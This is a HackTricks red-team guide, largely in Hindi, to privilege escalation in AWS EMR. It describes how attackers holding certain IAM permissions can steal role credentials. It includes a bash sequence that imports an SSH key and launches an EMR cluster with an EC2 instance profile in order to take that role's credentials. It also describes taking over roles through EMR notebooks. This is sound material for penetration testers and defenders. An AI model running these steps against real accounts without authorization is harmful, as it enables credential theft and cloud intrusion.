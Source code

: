 # AWS - EMR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EMR

More **info about EMR** in:

{% content-ref url="../aws-services/aws-emr-enum.md" %}
[aws-emr-enum.md](../aws-services/aws-emr-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `elasticmapreduce:RunJobFlow`

इन अनुमतियों के साथ एक हमलावर **EC2 भूमिकाओं को संलग्न करते हुए एक नया EMR क्लस्टर चला सकता है** और इसके क्रेडेंशियल्स चुराने की कोशिश कर सकता है।\
ध्यान दें कि ऐसा करने के लिए आपको **खाता में आयातित कुछ ssh प्राइवेट की के बारे में जानना होगा** या एक आयात करना होगा, और **मास्टर नोड में पोर्ट 22 खोलने में सक्षम होना होगा** (आप `--ec2-attributes` के अंदर `EmrManagedMasterSecurityGroup` और/या `ServiceAccessSecurityGroup` के गुणों के साथ ऐसा करने में सक्षम हो सकते हैं)।
```bash
# Import EC2 ssh key (you will need extra permissions for this)
ssh-keygen -b 2048 -t rsa -f /tmp/sshkey -q -N ""
chmod 400 /tmp/sshkey
base64 /tmp/sshkey.pub > /tmp/pub.key
aws ec2 import-key-pair \
--key-name "privesc" \
--public-key-material file:///tmp/pub.key


aws emr create-cluster \
--release-label emr-5.15.0 \
--instance-type m4.large \
--instance-count 1 \
--service-role EMR_DefaultRole \
--ec2-attributes InstanceProfile=EMR_EC2_DefaultRole,KeyName=privesc

# Wait 1min and connect via ssh to an EC2 instance of the cluster)
aws emr describe-cluster --cluster-id <id>
# In MasterPublicDnsName you can find the DNS to connect to the master instance
## You cna also get this info listing EC2 instances
```
Note how an **EMR role** is specified in `--service-role` and a **ec2 role** is specified in `--ec2-attributes` inside `InstanceProfile`. However, this technique only allows to steal the EC2 role credentials (as you will connect via ssh) but no the EMR IAM Role.

**Potential Impact:** EC2 सेवा भूमिका में प्रिवेस्क।

### `elasticmapreduce:CreateEditor`, `iam:ListRoles`, `elasticmapreduce:ListClusters`, `iam:PassRole`, `elasticmapreduce:DescribeEditor`, `elasticmapreduce:OpenEditorInConsole`

इन अनुमतियों के साथ, एक हमलावर **AWS कंसोल** में जा सकता है, एक नोटबुक बना सकता है और IAM भूमिका चुराने के लिए इसे एक्सेस कर सकता है।

{% hint style="danger" %}
यहां तक कि अगर आप मेरे परीक्षणों में नोटबुक इंस्टेंस पर IAM भूमिका संलग्न करते हैं, तो मैंने देखा कि मैं AWS प्रबंधित क्रेडेंशियल्स चुराने में सक्षम था और IAM भूमिका से संबंधित क्रेड्स नहीं।
{% endhint %}

**Potential Impact:** AWS प्रबंधित भूमिका में प्रिवेस्क arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

### `elasticmapreduce:OpenEditorInConsole`

बस इस अनुमति के साथ, एक हमलावर **Jupyter Notebook तक पहुंच प्राप्त कर सकेगा और इससे संबंधित IAM भूमिका चुरा सकेगा।**\
नोटबुक का URL है `https://<notebook-id>.emrnotebooks-prod.eu-west-1.amazonaws.com/<notebook-id>/lab/`

{% hint style="danger" %}
यहां तक कि अगर आप मेरे परीक्षणों में नोटबुक इंस्टेंस पर IAM भूमिका संलग्न करते हैं, तो मैंने देखा कि मैं AWS प्रबंधित क्रेडेंशियल्स चुराने में सक्षम था और IAM भूमिका से संबंधित क्रेड्स नहीं।
{% endhint %}

**Potential Impact:** AWS प्रबंधित भूमिका में प्रिवेस्क arn:aws:iam::420254708011:instance-profile/prod-EditorInstanceProfile

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
